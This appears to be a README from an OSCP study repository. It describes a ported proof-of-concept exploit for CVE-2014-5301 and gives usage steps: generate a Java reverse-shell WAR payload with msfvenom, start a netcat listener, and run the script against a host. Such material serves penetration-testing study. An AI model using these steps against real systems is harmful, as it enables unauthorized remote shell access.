 # OSCP
This is a repository which contains custom/ported POC exploits. They have been made for study and learning purposes.

## 35845.py

CVE: 2014-5301

OSVDB: 116733

URL: [http://seclists.org/fulldisclosure/2015/Jan/5](http://seclists.org/fulldisclosure/2015/Jan/5)

Original metasploit module: https://www.exploit-db.com/exploits/35845

### Usage
```
35845.py file.war host port
```

1. First create reverse shell payload
```
msfvenom -p java/shell_reverse_tcp LHOST=<ip address> LPORT=4444 -f war > shell.war
```

2. Start netcat listener 

3. Run the script
```
35845.py shell.war 192.168.1.1 8080
```
**Note:** The exploit may require multiple run to get it working. Don't give up!
